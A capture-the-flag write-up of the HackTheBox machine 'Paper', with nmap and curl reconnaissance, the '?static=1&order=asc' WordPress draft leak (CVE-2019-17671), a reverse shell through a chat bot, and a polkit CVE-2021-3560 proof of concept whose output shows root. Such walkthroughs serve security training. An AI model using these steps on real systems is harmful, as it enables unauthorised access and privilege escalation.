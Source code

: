 ```yaml
---
title: Paper HTB (English)
image: /assets/img/Anexos/Máquina%20Paper.png
description: Paper HTB [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction
 Paper is an easy Linux machine that features an Apache server on ports 80 and 443, which are serving the HTTP and HTTPS versions of a website respectively. The website on port 80 returns a default server webpage but the HTTP response header reveals a hidden domain. This hidden domain is running a WordPress blog, whose version is vulnerable to [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2). This vulnerability allows us to view the confidential information stored in the draft posts of the blog, which reveal another URL leading to an employee chat system. This chat system is based on Rocketchat. Reading through the chats we find that there is a bot running which can be queried for specific information. We can exploit the bot functionality to obtain the password of a user on the system. Further host enumeration reveals that the sudo version is vulnerable to [CVE-2021-3560](https://www.exploit-db.com/exploits/50011) and can be exploited to elevate to root privileges. 

### Machine Description


- Name: Paper
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Active](https://app.hackthebox.com/machines/432)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Active.pdf)




## Reconnaissance 
```shell
❯ sudo nmap -sSCV --min-rate 5000 -p- --open 10.129.136.31 -oN scan1.txt
[sudo] password for belin: 
Starting Nmap 7.97 ( https://nmap.org ) at 2025-09-04 21:15 +0200
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 21:15 (0:00:07 remaining)
Nmap scan report for 10.129.136.31
Host is up (0.065s latency).
Not shown: 64985 closed tcp ports (reset), 547 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
```

Nmap reported the ports **22(SHH)**, **80(HTTP)**, **443(HTTPS)** so lets take a look

![](/assets/img/Anexos/Máquina%20Paper-1.png)

In both http and https we find this web which appers to the default Apache http page in CentOS. 

Using `curl` with verbose we can see what the server responses and we can find a domain which I wrote in `/etc/hosts`
```shell
❯ curl -I -v http://10.129.136.31/
*   Trying 10.129.136.31:80...
* Connected to 10.129.136.31 (10.129.136.31) port 80
* using HTTP/1.x
> HEAD / HTTP/1.1
> Host: 10.129.136.31
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 403 Forbidden
HTTP/1.1 403 Forbidden
< Date: Thu, 04 Sep 2025 20:11:07 GMT
Date: Thu, 04 Sep 2025 20:11:07 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
X-Backend-Server: office.paper
< Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
< ETag: "30c0b-5c5c7fdeec240"
ETag: "30c0b-5c5c7fdeec240"
< Accept-Ranges: bytes
Accept-Ranges: bytes
< Content-Length: 199691
Content-Length: 199691
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< 

* Connection #0 to host 10.129.136.31 left intact

    ~/Desktop/Machines/HTB/Paper/nmap  ✔  
```


![](/assets/img/Anexos/Máquina%20Paper-2.png)


![](/assets/img/Anexos/Máquina%20Paper-3.png)

This site appers to be hosted using WordPress, using `whatweb` we can confirm it 

```shell
❯ whatweb http://office.paper/
http://office.paper/ [200 OK] Apache[2.4.37][mod_fcgid/2.3.9], Bootstrap[1,5.2.3], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.129.136.31], JQuery, MetaGenerator[WordPress 5.2.3], OpenSSL[1.1.1k], PHP[7.2.24], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Blunder Tiffin Inc. &#8211; The best paper company in the electric-city Scranton!], UncommonHeaders[link,x-backend-server], WordPress[5.2.3], X-Backend[office.paper], X-Powered-By[PHP/7.2.24]
```

```shell
searchsploit -m multiple/webapps/47690.md
```

If we look a exploit for that versión using `searchsploit` we can finde this vulnerability that allow us to see secret content such comments:

```shell
❯ cat 47690.md
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 47690.md
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ So far we know that adding `?static=1` to a wordpress URL should leak its secret content
   2   │ 
   3   │ Here are a few ways to manipulate the returned entries:
   4   │ 
   5   │ - `order` with `asc` or `desc`
   6   │ - `orderby`
   7   │ - `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
   8   │ 
   9   │ 
  10   │ In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?st
       │ atic=1&order=asc` will show the secret content:
```

Watching the secret content, we noticed about a secret chat:
![](/assets/img/Anexos/Máquina%20Paper-4.png)

![](/assets/img/Anexos/Máquina%20Paper-5.png)

After register, we belong to the "general" group where there's a bot which can apparently read files: 

![](/assets/img/Anexos/Máquina%20Paper-7.png)


![](/assets/img/Anexos/Máquina%20Paper-8.png)

Someone says that there's a "trick" where you can say few words and the bot responde aswell:

## Explotation 
![](/assets/img/Anexos/Máquina%20Paper-9.png)

![](/assets/img/Anexos/Máquina%20Paper-10.png)

![](/assets/img/Anexos/Máquina%20Paper-11.png)

So after a few attemps, I realized that I can execute code using `run` so I just spawn a rev shell. 

Once in, in the envoirment variables we can see sensible information such the password of the current user:

![](/assets/img/Anexos/Máquina%20Paper-16.png)

## Privilage Escalation

But I didn't waste the time so after that I just runned `linpeas` and it reported a CVE: 
![](/assets/img/Anexos/Máquina%20Paper-18.png)

To exploit it I used this poc: 

> https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

```shell
[dwight@paper tmp]$ ./poc.sh test
[+] Trying to add user ...
[+] Trying to add user ...
[+] Trying to change user password ...
[+] Trying to change user password ...
[+] Trying to change user password ...
[***] Here comes the PoC:

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

uid=0(root) gid=0(root) groups=0(root)
[+] Removing previously created user

bash-4.4# whoami
root
```




